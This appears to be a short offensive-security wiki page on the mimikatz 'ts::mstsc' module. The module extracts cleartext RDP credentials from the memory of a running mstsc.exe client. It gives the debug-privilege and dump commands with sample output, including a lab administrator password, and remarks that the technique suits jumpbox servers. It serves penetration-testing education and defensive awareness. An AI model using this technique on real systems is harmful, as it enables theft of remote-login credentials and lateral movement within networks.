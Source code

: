 # mstsc

This module can be used to extract cleartext credentials from the mstsc process \(client side\)

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # ts::mstsc
!!! Warning: false positives can be listed !!!

| PID 2992      mstsc.exe (module @ 0x000000000055F6F0)

ServerName                                [wstring] '192.168.0.239'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '192.168.0.239'
UserName                                  [wstring] 'administrator'
Domain                                    [wstring] 'hacklab'
Password                                  [protect] 'Super_SecretPass1!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '192.168.0.239'
RDmiUsername                              [wstring] 'hacklab\administrator'
```

{% hint style="warning" %}
It must be noted that an RDP session must be running in order to retrieve credentials via `ts::mstsc`. It comes in handy in jumpbox servers!
{% endhint %}

_\(Demonstration target is a Windows 10 Pro\)_

